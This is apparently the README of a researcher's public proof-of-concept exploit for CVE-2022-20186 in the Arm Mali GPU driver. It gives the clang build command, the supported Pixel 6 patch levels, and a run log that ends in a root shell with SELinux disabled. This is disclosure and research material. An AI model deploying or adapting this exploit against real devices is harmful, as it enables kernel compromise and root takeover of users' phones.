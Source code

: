 ## Exploit for CVE-2022-20186

The write up can be found [here](https://github.blog/2022-07-27-corrupting-memory-without-memory-corruption/). This is a bug in the Arm Mali kernel driver that I reported in January 2022. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6 and supports patch levels from Novmember 2021 to Feburary 2022. It is easy to add support for other firmware by changing a few image offsets. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang mali_alias.c -o mali_alias
```

The exploit rarely fails and can be retried without crashing the device. If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_alias                                                                                             
fingerprint: google/oriole/oriole:12/SQ1D.220205.004/8151327:user/release-keys
tracking page 0x6ff794e000
drain 0x6d5b200000
gpu_va[0] 6ff6698000
gpu_va[1] 6ff6695000
alias 0x6ff6693000
overwrite addr : 6ff370051c 51c
overwrite addr : 6de310051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
result 50
overwrite addr : 6ff370051c 51c
overwrite addr : 6de310051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
result 50
oriole:/ # 
```
